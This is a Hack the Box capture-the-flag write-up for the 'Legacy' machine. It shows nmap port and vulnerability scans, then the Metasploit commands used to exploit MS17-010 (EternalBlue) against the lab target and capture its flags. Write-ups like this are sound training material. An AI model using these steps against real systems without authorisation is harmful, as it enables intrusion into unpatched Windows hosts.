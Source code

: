 writeup

---
title: Legacy
date: 2021-01-21
excerpt: "'Legacy' is an easy rated box on Hack the Box. We'll be using Nmap's scripting engine to detect a vulnerability and Metasploit to exploit it."
classes: wide
categories: HackTheBox
tags:
  - htb
  - ms17-010
  - eternalblue
  - metasploit
  - nse
---

header-image

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

My initial all ports scan showed `139`, `445` and `3389` open. So I targeted those in my targets scan.

`nmap -p 139,445,3389 -oN targeted -Pn -T4 -A 10.10.10.4`


![img](/assets/images/hackthebox/legacy/0.png)

Also ran a script scan using the `--script=vuln` switch

`nmap -Pn 10.10.10.4. -p 139,445 --script=vuln`


![img](/assets/images/hackthebox/legacy/1.png)

Interesting...

---

### Access (Metasploit, ms17-010)
* Reading/Resources
  * [Metasploit](https://www.exploit-db.com/docs/english/44040-the-easiest-metasploit-guide-you%E2%80%99ll-ever-read.pdf)
  * [EternalBlue (ms17-010)](https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdf)

Let's follow up on **ms17-010** lead from nmap using **metasploit**.

`msfconsole`
`search ms17-010`


![img](/assets/images/hackthebox/legacy/2.png)

Set your options:

`set rhosts 10.10.10.4`
`set lhost tun0`

Fire!


![img](/assets/images/hackthebox/legacy/3.png)

That was easy. Capture the flags.


![img](/assets/images/hackthebox/legacy/4.png)


![img](/assets/images/hackthebox/legacy/5.png)

